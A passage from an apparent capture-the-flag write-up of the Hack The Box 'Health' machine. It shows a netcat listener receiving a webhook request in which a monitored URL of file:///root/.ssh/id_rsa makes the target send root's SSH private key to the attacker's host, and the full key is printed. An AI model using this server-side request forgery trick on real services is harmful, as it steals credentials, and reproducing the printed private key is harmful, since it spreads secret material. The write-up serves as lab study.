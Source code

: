 <img src="/writeups/assets/img/Health-htb/10.png" alt="">

```null
nc -nlvp 8080
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::8080
Ncat: Listening on 0.0.0.0:8080
Ncat: Connection from 10.10.11.176.
Ncat: Connection from 10.10.11.176:49336.
POST / HTTP/1.1
Host: 10.10.16.34:8080
Accept: */*
Content-type: application/json
Content-Length: 1832
Expect: 100-continue

{"webhookUrl":"http:\/\/10.10.16.34:8080","monitoredUrl":"file:\/\/\/root\/.ssh\/id_rsa","health":"up","body":"-----BEGIN RSA PRIVATE KEY-----\nMIIEowIBAAKCAQEAwddD+eMlmkBmuU77LB0LfuVNJMam9\/jG5NPqc2TfW4Nlj9gE\nKScDJTrF0vXYnIy4yUwM4\/2M31zkuVI007ukvWVRFhRYjwoEPJQUjY2s6B0ykCzq\nIMFxjreovi1DatoMASTI9Dlm85mdL+rBIjJwfp+Via7ZgoxGaFr0pr8xnNePuHH\/\nKuigjMqEn0k6C3EoiBGmEerr1BNKDBHNvdL\/XP1hN4B7egzjcV8Rphj6XRE3bhgH\n7so4Xp3Nbro7H7IwIkTvhgy61bSUIWrTdqKP3KPKxua+TqUqyWGNksmK7bYvzhh8\nW6KAhfnHTO+ppIVqzmam4qbsfisDjJgs6ZwHiQIDAQABAoIBAEQ8IOOwQCZikUae\nNPC8cLWExnkxrMkRvAIFTzy7v5yZToEqS5yo7QSIAedXP58sMkg6Czeeo55lNua9\nt3bpUP6S0c5x7xK7Ne6VOf7yZnF3BbuW8\/v\/3Jeesznu+RJ+G0ezyUGfi0wpQRoD\nC2WcV9lbF+rVsB+yfX5ytjiUiURqR8G8wRYI\/GpGyaCnyHmb6gLQg6Kj+xnxw6Dl\nhnqFXpOWB771WnW9yH7\/IU9Z41t5tMXtYwj0pscZ5+XzzhgXw1y1x\/LUyan++D+8\nefiWCNS3yeM1ehMgGW9SFE+VMVDPM6CIJXNx1YPoQBRYYT0lwqOD1UkiFwDbOVB2\n1bLlZQECgYEA9iT13rdKQ\/zMO6wuqWWB2GiQ47EqpvG8Ejm0qhcJivJbZCxV2kAj\nnVhtw6NRFZ1Gfu21kPTCUTK34iX\/p\/doSsAzWRJFqqwrf36LS56OaSoeYgSFhjn3\nsqW7LTBXGuy0vvyeiKVJsNVNhNOcTKM5LY5NJ2+mOaryB2Y3aUaSKdECgYEAyZou\nfEG0e7rm3z++bZE5YFaaaOdhSNXbwuZkP4DtQzm78Jq5ErBD+a1af2hpuCt7+d1q\n0ipOCXDSsEYL9Q2i1KqPxYopmJNvWxeaHPiuPvJA5Ea5wZV8WWhuspH3657nx8ZQ\nzkbVWX3JRDh4vdFOBGB\/ImdyamXURQ72Xhr7ODkCgYAOYn6T83Y9nup4mkln0OzT\nrti41cO+WeY50nGCdzIxkpRQuF6UEKeELITNqB+2+agDBvVTcVph0Gr6pmnYcRcB\nN1ZI4E59+O3Z15VgZ\/W+o51+8PC0tXKKWDEmJOsSQb8WYkEJj09NLEoJdyxtNiTD\nSsurgFTgjeLzF8ApQNyN4QKBgGBO854QlXP2WYyVGxekpNBNDv7GakctQwrcnU9o\n++99iTbr8zXmVtLT6cOr0bVVsKgxCnLUGuuPplbnX5b1qLAHux8XXb+xzySpJcpp\nUnRnrnBfCSZdj0X3CcrsyI8bHoblSn0AgbN6z8dzYtrrPmYA4ztAR\/xkIP\/Mog1a\nvmChAoGBAKcW+e5kDO1OekLdfvqYM5sHcA2le5KKsDzzsmboGEA4ULKjwnOXqJEU\n6dDHn+VY+LXGCv24IgDN6S78PlcB5acrg6m7OwDyPvXqGrNjvTDEY94BeC\/cQbPm\nQeA60hw935eFZvx1Fn+mTaFvYZFMRMpmERTWOBZ53GTHjSZQoS3G\n-----END RSA PRIVATE KEY-----\n"}
```